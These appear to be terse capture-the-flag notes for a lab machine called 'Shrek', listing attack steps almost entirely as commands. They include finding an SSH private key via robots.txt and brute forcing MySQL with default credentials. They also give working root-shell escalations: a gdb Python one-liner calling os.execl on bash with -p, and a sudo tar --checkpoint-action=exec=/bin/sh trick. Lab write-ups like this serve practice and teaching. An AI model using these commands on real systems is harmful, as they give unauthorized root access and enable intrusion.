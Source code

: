 Shrek

robots.txt --> id_rsa for shrek

replace with your ssh key quickly

`gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit`

`chown root check.sh`

`visudo`

ftp as `ftp:PASSWORD` from mysql brute forcing (root:password) --> `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`